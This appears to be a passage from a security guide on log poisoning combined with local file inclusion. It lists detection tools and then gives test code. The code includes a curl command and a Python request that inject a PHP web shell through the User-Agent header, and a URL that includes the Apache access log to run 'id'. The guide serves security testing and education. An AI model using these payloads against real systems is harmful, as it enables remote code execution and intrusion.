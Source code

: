 1. **ModSecurity WAF** - Rules to detect code in User-Agent headers
2. **OWASP ZAP** - Can detect LFI vulnerabilities
3. **Burp Suite Professional** - Scanner can detect some log injection/LFI issues
4. **Custom log monitoring scripts** - Using grep/regex to find malicious patterns

## Testing Log Poisoning 

```bash
# Using curl to test log poisoning
curl -A "<?php phpinfo(); ?>" http://vulnerable.com/

# Using Python requests
import requests
headers = {"User-Agent": "<?php system($_GET['cmd']); ?>"}
requests.get("http://vulnerable.com/", headers=headers)

# Check if poisoning worked
http://vulnerable.com/index.php?page=../../../var/log/apache2/access.log&cmd=id
```

## References

- [OWASP File Inclusion](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [HackTricks - Log Poisoning](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo)
- [PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [Log Poisoning - Riyaz Walikar](https://www.youtube.com/watch?v=qii-4l5QMTk)

